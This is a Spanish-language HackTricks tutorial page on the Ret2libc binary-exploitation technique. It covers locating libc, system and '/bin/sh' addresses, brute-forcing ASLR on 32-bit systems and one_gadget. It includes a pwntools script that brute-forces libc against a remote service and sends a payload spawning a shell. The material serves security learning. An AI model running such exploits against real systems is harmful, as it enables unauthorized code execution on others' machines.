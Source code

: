 # Ret2lib

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## **Información Básica**

La esencia de **Ret2Libc** es redirigir el flujo de ejecución de un programa vulnerable a una función dentro de una biblioteca compartida (por ejemplo, **system**, **execve**, **strcpy**) en lugar de ejecutar shellcode suministrado por el atacante en la pila. El atacante crea un payload que modifica la dirección de retorno en la pila para apuntar a la función de la biblioteca deseada, al mismo tiempo que organiza que los argumentos necesarios se configuren correctamente según la convención de llamada.

### **Pasos de Ejemplo (simplificados)**

* Obtener la dirección de la función a llamar (por ejemplo, system) y el comando a llamar (por ejemplo, /bin/sh)
* Generar una cadena ROP para pasar el primer argumento apuntando a la cadena de comando y el flujo de ejecución a la función

## Encontrar las direcciones

* Suponiendo que la `libc` utilizada es la de la máquina actual, puedes encontrar dónde se cargará en memoria con:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Si deseas verificar si ASLR está cambiando la dirección de libc, puedes hacer lo siguiente:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Saber la libc utilizada también es posible encontrar el desplazamiento a la función `system` con:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Saber la libc utilizada también es posible encontrar el desplazamiento a la función de la cadena `/bin/sh` con:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Usando gdb-peda / GEF

Conociendo la libc utilizada, también es posible usar Peda o GEF para obtener la dirección de la función **system**, de la función **exit** y de la cadena **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Usando /proc/\<PID>/maps

Si el proceso está creando **hijos** cada vez que interactúas con él (servidor de red), intenta **leer** ese archivo (probablemente necesitarás ser root).

Aquí puedes encontrar **exactamente dónde se carga la libc** dentro del proceso y **dónde se cargará** para cada hijo del proceso.

![](<../../../../.gitbook/assets/image (95).png>)

En este caso se carga en **0xb75dc000** (Esta será la dirección base de la libc)

## Librería libc desconocida

Podría ser posible que **no sepas qué libc está cargando** el binario (porque podría estar ubicado en un servidor al que no tienes acceso). En ese caso podrías abusar de la vulnerabilidad para **filtrar algunas direcciones y encontrar qué librería libc** se está utilizando:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Y puedes encontrar una plantilla de pwntools para esto en:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Saltando ASLR en 32 bits

Estos ataques de fuerza bruta son **solo útiles para sistemas de 32 bits**.

* Si el exploit es local, puedes intentar forzar la dirección base de la libc (útil para sistemas de 32 bits):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Si estás atacando un servidor remoto, podrías intentar **forzar la dirección de la función `usleep` de la `libc`**, pasando como argumento 10 (por ejemplo). Si en algún momento el **servidor tarda 10 segundos adicionales en responder**, encontraste la dirección de esta función.

## ONE\_GADGET

[**ONE\_GADGET**](https://github.com/david942j/one\_gadget) permite obtener una shell en lugar de usar **system** y **"/bin/sh". ONE\_GADGET** encontrará dentro de la biblioteca **libc** alguna forma de obtener una shell usando solo una **dirección ROP**.\
Sin embargo, normalmente hay algunas restricciones, las más comunes y fáciles de evitar son como `[rsp+0x30] == NULL`. Como controlas los valores dentro del **RSP**, solo tienes que enviar algunos valores NULL adicionales para evitar la restricción.

![](<../../../../.gitbook/assets/image (615).png>)
```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```
## Ejemplo de Código x86 Ret2lib

En este ejemplo, la técnica de fuerza bruta ASLR está integrada en el código y el binario vulnerable se encuentra en un servidor remoto:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## Ejemplo de Código x64 Ret2lib

Ver el ejemplo en:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (o puts)

Esto permite **filtrar información del proceso** llamando a `printf`/`puts` con datos específicos colocados como argumento.

## Ret2printf

Básicamente significa abusar de un **Ret2lib para transformarlo en una vulnerabilidad de cadenas de formato de `printf`** utilizando el `ret2lib` para llamar a printf con los valores para explotarlo (parece inútil pero es posible):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
